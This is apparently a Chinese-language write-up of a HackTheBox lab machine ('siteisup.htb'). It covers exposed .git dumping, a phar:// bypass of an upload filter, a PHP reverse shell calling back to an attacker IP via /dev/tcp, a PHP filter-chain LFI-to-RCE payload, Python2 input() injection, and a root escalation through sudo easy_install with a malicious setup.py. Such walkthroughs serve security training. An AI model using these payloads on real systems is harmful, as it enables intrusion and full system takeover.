


## 資訊蒐集 Reconnaissance

```bash
mozix@pwn$ sudo nmap -p- -Pn -nv -T4 10.129.16.12
[sudo] password for mozix: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-31 21:47 CST
Initiating SYN Stealth Scan at 21:47
Scanning 10.129.16.12 [65535 ports]
Discovered open port 80/tcp on 10.129.16.12
Discovered open port 22/tcp on 10.129.16.12
...


mozix@pwn$ nmap -sSVC -p 22,80 10.129.16.12          
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-31 21:50 CST
Nmap scan report for 10.129.16.12
Host is up (0.094s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds

```

### 目錄掃描

- 發現 `/dev`

```bash
mozix@pwn$ feroxbuster -u 'http://siteisup.htb'
                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://siteisup.htb/
 🚩  In-Scope Url          │ siteisup.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      310c http://siteisup.htb/dev => http://siteisup.htb/dev/
200      GET      320l      675w     5531c http://siteisup.htb/stylesheet.css
200      GET       40l       93w     1131c http://siteisup.htb/
[####################] - 2m     60005/60005   0s      found:3       errors:0      
[####################] - 2m     30000/30000   222/s   http://siteisup.htb/ 
[####################] - 2m     30000/30000   224/s   http://siteisup.htb/dev/  
```

- 用 ffuf 發現 `/dev/.git`

```bash
mozix@pwn$ ffuf -u 'http://siteisup.htb/dev/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb/dev/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 207ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 205ms]
.                       [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 205ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 205ms]
.git                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 207ms]
.htpasswds              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.htgroup                [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 206ms]
wp-forum.phps           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 208ms]
.htaccess.bak           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.htuser                 [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 205ms]
.ht                     [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
.htc                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 204ms]
:: Progress: [17129/17129] :: Job [1/1] :: 194 req/sec :: Duration: [0:01:32] :: Errors: 0 ::
```

### 取得 Repo

- git-dumper

```bash
mozix@pwn$ git-dumper http://siteisup.htb/dev/.git/ repo                               
[-] Testing http://siteisup.htb/dev/.git/HEAD [200]
[-] Testing http://siteisup.htb/dev/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://siteisup.htb/dev/.gitignore [404]
[-] http://siteisup.htb/dev/.gitignore responded with status code 404
[-] Fetching http://siteisup.htb/dev/.git/ [200]
[-] Fetching http://siteisup.htb/dev/.git/packed-refs [200]
[-] Fetching http://siteisup.htb/dev/.git/HEAD [200]
[-] Fetching http://siteisup.htb/dev/.git/branches/ [200]
[-] Fetching http://siteisup.htb/dev/.git/index [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/ [200]
[-] Fetching http://siteisup.htb/dev/.git/description [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/ [200]
[-] Fetching http://siteisup.htb/dev/.git/config [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/post-update.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/HEAD [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/commit-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-commit.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/info/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-receive.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/pack/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-push.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/update.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/heads/ [200]
[-] Fetching http://siteisup.htb/dev/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/tags/ [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/heads/ [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/remotes/ [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/remotes/ [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.idx [200]
[-] Fetching http://siteisup.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.pack [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/heads/main [200]
[-] Fetching http://siteisup.htb/dev/.git/info/ [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/heads/main [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/remotes/origin/ [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/remotes/origin/ [200]
[-] Fetching http://siteisup.htb/dev/.git/info/exclude [200]
[-] Fetching http://siteisup.htb/dev/.git/logs/refs/remotes/origin/HEAD [200]
[-] Fetching http://siteisup.htb/dev/.git/refs/remotes/origin/HEAD [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 6 paths from the index
```

### 源碼分析

1. 先使用 `git status` 確認有沒有修改履歷可以查看。
2. 發現 `.htaccess` 有描述 `Required-Header` 需要 `only4dev` 才可以瀏覽。可能跟 `.htpasswd` 一起出現。


> [!note] .htaccess
> .htaccess 是Apache 網頁伺服器的目錄層級設定檔，放在網站目錄下即可生效，不需重啟伺服器。

```vim
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

3. 發現 `checker.php` 有阻止 php、zip 等檔案上傳。

```vim
    # Check if extension is allowed.
    $ext = getExtension($file);
    if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
        die("Extension not allowed!");
    }
```

### 玩玩 dev.siteisup.htb

由於前面的資訊告訴我們，header 需要帶入 `only4dev` 才可以瀏覽，這邊我們使用 [SIMPLE MODIFY HEADERS](https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/) 來調整 header 的內容，如此才可以檢視 dev.siteisup.htb 的內容。



有意思的是，這邊可以進行檔案上傳，上傳後的檔案可以在 `/uploads` 底下新建的亂數資料夾中查看。

由於沒有辦法直接上傳 php 及 zip 等檔案，這邊的作法是運用 `phar` 的機制，來繞過網站防禦並執行 php 指令。

> [!note] phar
> phar 全稱 PHP Archive，類似於 Java 的 jar 檔案，正常用於將多個 PHP 檔案打包成單一 .phar 檔案來發布或執行。而 PHP 本身提供的「串流包裝器(stream wrapper)」為 `phar://`，主要語法 `phar://[壓縮檔路徑]/[壓縮檔內的檔案]` 可以命令 PHP 直接讀取 phar 檔內的檔案並執行，而 phar 的內部結構又與 zip 相似，因此 phar 是可以讀取 zip 中的檔案並執行的。

這邊先做個 POC

首先，先建立一個 `info.php`，內容如下：

```php
<?php phpinfo(); ?>
```

使用 zip 將 `info.php` 打包成 `oao.oao`（畢竟 zip 會被網頁阻攔而上傳失敗）。

```bash
mozix@pwn$ zip oao.oao info.php
  adding: info.php (deflated 0%)
```

接著，把 `oao.oao` 上傳到網站後，我們可以在 `/uploads` 底下新建的亂數資料夾中看到 `oao.oao`。



前面我們發現 dev.siteisup.htb 有一個 `admin` page 的存取路徑是 http://dev.siteisup.htb/?page=admin.php，這邊稍作變化後，加入 phar，存取路徑變成 `http://dev.siteisup.htb/?page=phar://uploads/3e141b869fb27702346b790a94071119/oao.oao/info`就可以看到朝思暮想的 info.php 的內容了。

## 初步滲透 Initial Access

接下來就是快樂的 RCE 時間了。這邊有兩條路可以走：

1. reverse shell 彈回來
2. LFI2RCE

### reverse shell 彈回來

0xdf 大大有推薦工具 [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser/blob/master/images/banner.png) 可以掃描 info.php 的內容來找出弱點，不過這邊就不多著墨。這邊 reverse shell 可以先去 `usr/share/webshells/php/php-reverse-shell.php` 複製一份下來修改，最終修改的內容如下：

```php
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.72/55688 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
?>
```

本機這邊使用 nc 監聽 55688 port，並使用 script + stty 來讓 shell 更方便操作。

```bash
mozix@pwn$ nc -lvnp 55688
...
www-data@updown:/var/www/dev$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@updown:/var/www/dev$ ^Z
[1]+  Stopped                 nc -lnvp 55688
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 55688
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@updown:/var/www/dev$ 
```

### LFI2RCE

這個東西比較炫泡一點，這邊工具先上 [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator)。簡單來說，這東西是利用 php://filter 將一連串字元編碼轉換成可以執行的 php 指令，而前面的工具就是將這段複雜的指令轉換成字元編碼的東具，也因為字元會轉換非常多次，所以才稱作 filter 「chain」。

```bash
mozix@pwn$ uv run php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

接著在把產出的結果整段丟在 `http://dev.siteisup.htb/?page=` 後面就可以看到 info.php 的內容了。

## 提權 Privilege Escalation

### 成為 developer

在 www-data 翻了一陣子後，會在 `/home/developer/dev` 底下翻到 `siteisup` 及 `siteisup_test.py` 兩個檔案，基本上內容是一樣的。這邊的考點是 siteisup_test.py 使用了 python2 的 `input` 函式，在 python2 中 `input` 會直接調用 `eval`，亦即 python2 的 `input` 就是一個很好的注入點：

```bash
www-data@updown:/home/developer/dev$ python2 siteisup_test.py
Enter URL here:__import__('os').system('id')
uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
...
```

換作 siteisup 來試試：

```bash
www-data@updown:/home/developer/dev$ ./siteisup            
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

看起來使用者可以從 www-data 提權到 developer，here we go：

```bash
www-data@updown:/home/developer/dev$ ./siteisup            
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

接著，為了之後更方面的操作，我們先把 developer 的 ssh key 幹出來，改用 ssh 登入更方便。

### 成為 root

一如既往地，先使用 `sudo -l` 來查看 developer 的 sudo 權限。

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

是時候來科普 `easy_install` 了。

> [!note] easy_install
> easy_install 是 Python 過去的套件管理工具，目前已經不再維護。easy_install 可以直接輸入套件名稱或是指定資料夾，easy_install 會根據資料夾底下的 `setup.py` 來安裝套件。

根據這個特性，我們可以建立一個新的資料夾 `tmp`，並在裡面建立一個 `setup.py`，內容如下：

```python
import os
os.system("/bin/bash")
```

接著就是快了的 pwn 時間~

```bash
sudo easy_install /tmp/0xdf/
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing 
Writing /tmp/0xdf/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/0xdf/egg-dist-tmp-ObdjVa
root@updown:/tmp/0xdf# id
uid=0(root) gid=0(root) groups=0(root)
```